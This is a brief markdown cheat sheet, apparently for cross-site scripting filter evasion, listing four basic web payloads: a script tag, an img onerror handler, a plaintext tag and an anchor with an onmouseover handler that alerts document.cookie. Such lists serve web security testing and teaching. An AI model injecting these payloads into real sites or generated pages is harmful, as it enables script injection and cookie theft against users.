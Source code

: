 # XSS FILTER EVASION CHEAT SHEET.
## Basic evasion.
```javascript
<script>alert(window.origin)</script>
<img src="" onerror=alert(window.origin)>
<plaintext>alert(window.origin)</plaintext>
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\> 
```
